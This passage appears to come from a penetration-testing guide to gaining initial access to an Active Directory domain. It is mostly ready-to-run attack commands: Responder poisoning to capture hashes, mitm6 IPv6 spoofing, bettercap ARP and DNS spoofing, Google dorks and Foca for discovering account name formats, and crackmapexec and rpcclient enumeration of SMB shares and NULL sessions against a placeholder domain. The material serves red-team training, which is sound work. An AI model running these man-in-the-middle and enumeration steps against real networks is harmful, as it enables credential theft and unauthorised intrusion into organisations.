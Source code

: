 ```
responder -I eth0 -b -f -F -w -P --lm
```

If there are DHCP requests to IPv6 on the network, or you see the address assigned to the IPv6 interface:

```
python mitm6.py -d jaki.local
```
or you can try assigning IPv6 addresses yourself:

```
ifconfig eth0 inet6 add fe80::200:f8ff:fe21:67cf/64 
```

You can end up using an **ARP & DNS attack Spoof**, which will always work if there is user traffic in the vlan:

```
./bettercap-iface eth0
net.probe on
set dns.spoof.domains jaki.local
dns.spoof on
arp.spoof on
```

Why are we doing this? What is the purpose of these actions? In order to launch an attack on Active Directory, you need to get initial access to the domain, in other words, any active account.

While our fishing utils are set to MITM attack, it will not be superfluous to look for a mask of account logins. Each company has its own domain account mask, someone uses only last names, someone combines first and last names, someone uses depersonalized accounts, for example, a set of letters or numbers that are not related to the employee in any way, and this approach is considered the most effective in terms of AD privacy protection.

The account mask can be found using document metadata, can be searched on the web using google queries **site:jaki.local filetype:doc / pdf / docx / xlsx**, or use specialized software such as Foca.

It will also be very efficient to go through the file shares - 445/tcp, because we have already performed a network scan after determining the addressing. Then you should look for network shares open for reading:

```
crackmapexec smb --shares /tmp/smb_hosts.txt -u guest -p '' --pass-pol
crackmapexec smb --shares /tmp/smb_hosts.txt -u '' -p ''
```

Also do not forget about NULL sessions on domain controllers:

```
rpcclient -U '%' dc.jaki.local
srvinfo
enumdomusers
getdompwinfo
querydominfo
netshareenum
netshareenumall
enumprinters
```
